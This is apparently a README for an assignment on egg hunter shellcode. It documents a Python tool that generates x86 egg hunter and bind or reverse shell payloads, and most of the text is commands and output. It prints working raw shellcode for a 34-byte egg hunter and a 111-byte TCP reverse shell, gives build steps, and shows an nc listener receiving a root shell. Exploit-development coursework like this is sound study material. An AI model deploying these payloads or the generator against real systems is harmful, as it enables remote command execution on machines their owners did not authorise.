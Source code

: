 # Assignment 3: Egg hunter shellcode

The egg hunter shellcode used in this assignment is based on the paper [Safely Searching Process Virtual Address Space](www.hick.org/code/skape/papers/egghunt-shellcode.pdf) by Skape.

To view the argument options for egg_hunter_x86.py:

```bash
python3 egg_hunter_x86.py -h
usage: egg_hunter_x86.py [-h] [-t {access,sigaction}] [-x {bind,reverse}] [-l LHOST]
                         [-p {0..65535}] [-s]

Generate x86 egg hunter shellcode.

optional arguments:
  -h, --help            show this help message and exit
  -t {access,sigaction}, --technique {access,sigaction}
                        Technique to use for egghunter.
  -x {bind,reverse}, --payload {bind,reverse}
                        Type of payload to execute
  -l LHOST, --lhost LHOST
                        Remote IPv4 address for TCP reverse shell to connect to.
  -p {0..65535}, --lport {0..65535}
                        Remote port for TCP reverse shell to connect to.
  -s, --shellcode       Output shellcode only
```

To generate the raw shellcode for a given payload type e.g. a reverse shell using the **access()** syscall, do the following:

```bash
python3 egg_hunter_x86.py -t access -x reverse -p 4444 -l 127.0.0.1 --shellcode

[*] Generating shellcode for x86 egg hunter using access technique
[*] Egg hunter length: 34 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x31\xd2\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7"

[*] Generating shellcode for x86 TCP reverse shell on 127.0.0.1:4444
[*] Shellcode length: 111 bytes
[*] Checking for NULL bytes...
[+] No NULL bytes detected!
"\x90\x50\x90\x50\x90\x50\x90\x50\x31\xc0\xb0\x66\x31\xdb\xb3\x01\x31\xc9\x51\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x31\xd2\x89\xc2\x31\xc0\xb0\x66\x31\xdb\xb3\x03\x31\xff\xbf\x80\xff\xff\xfe\x83\xf7\xff\x31\xc9\x57\x66\x68\x11\x5c\x66\x6a\x02\x89\xe6\x6a\x10\x56\x52\x89\xe1\xcd\x80\x52\xb0\x3f\x5b\x31\xc9\xcd\x80\xb0\x3f\xb1\x01\xcd\x80\xb0\x3f\xb1\x02\xcd\x80\xb0\x0b\x31\xdb\x53\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x31\xc9\x31\xd2\xcd\x80"
```

To generate a working binary with your chosen payload and technique, omit the `--shellcode` option:

```bash
python3 egg_hunter_x86.py -t access -x reverse -p 4444 -l 127.0.0.1            

[*] Compiled shellcode for x86 egg hunter
[*] Technique: access(2)
[*] Payload: reverse shell
[*] Test by starting a listener with nc -nlvp 4444 and executing ./egg_hunter_reverse_x86
```

The payload can then be tested as indicated in the printed output:

```bash
./egg_hunter_reverse_x86
```

```bash
nc -nlvp 4444
listening on [any] 4444 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 34636
hostname
kali
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
```

---

